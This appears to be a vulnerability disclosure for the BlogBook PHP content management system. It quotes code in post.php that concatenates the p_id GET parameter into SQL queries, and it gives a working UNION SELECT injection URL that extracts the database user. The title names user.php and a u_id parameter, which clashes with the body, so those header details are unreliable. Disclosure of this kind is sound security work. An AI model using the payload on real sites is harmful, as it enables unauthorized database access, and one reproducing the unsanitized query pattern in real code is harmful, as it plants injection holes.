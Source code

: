 # BlogBook user.php u_id Parameter SQL Injection

**Exploit Title: BlogBook user.php u_id Parameter SQL **

**Vendor Homepage: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software Link: [chaitak-gorai/blogbook: Blogbook- Content Management System Project](https://github.com/chaitak-gorai/blogbook)**

**Software: blogbook**

**Tested on: Windows, Apache 2.4.39 ,MySQL 8.0.12**

## Vulnerability Overview

A SQL injection vulnerability exists in the [post.php] file of the BlogBook application. User-supplied input from the p_id GET parameter is directly concatenated into SQL query strings without adequate sanitization. This affects both an UPDATE query designed to increment post view counts and a SELECT query used to fetch post data for display. Consequently, an unauthenticated remote attacker can inject and execute arbitrary SQL commands, potentially leading to unauthorized data access, modification, or further compromise of the database.

## Vulnerability Point

`blogbook-main/post.php:27`

## Vulnerable Parameter

`p_id`

## Vulnerable Code

```php
 <?php
                if (isset($_GET['p_id'])) {
                    $link_post_id = $_GET['p_id'];

                    $view_query = "UPDATE posts SET post_views_count=post_views_count +1 WHERE post_id=$link_post_id";
                    $send_query = mysqli_query($connection, $view_query);

                    $query = "SELECT * FROM posts WHERE post_id=$link_post_id";
                    $select_all_posts_query = mysqli_query($connection, $query);


                    while ($row = mysqli_fetch_assoc($select_all_posts_query)) {
                        $post_title = $row['post_title'];
                        $post_id = $row['post_id'];
                        $post_author = $row['post_author'];
                        $post_author_id = $row['author_id'];
                        $post_date = $row['post_date'];
                        $post_image = $row['post_image'];
                        $post_content = $row['post_content'];
                        // $post_content = strip_tags($row['post_content'], "");
                        $post_category_id = $row['post_category_id'];
                        $post_comment = $row['post_comment_count'];
                        $post_views_count = $row['post_views_count'];
                        $query = "SELECT * FROM categories WHERE cat_id={$post_category_id}";
                        $select_categories_id = mysqli_query($connection, $query);
                        $cat = mysqli_fetch_assoc($select_categories_id);
                        $post_category = $cat['cat_title'];

                ?>
```
## Payload

`http://localhost/post.php?p_id=-1%20UNION%20SELECT%20NULL,NULL,user(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL%20--`

![post.php sqli](./assets/post_sqli.png)
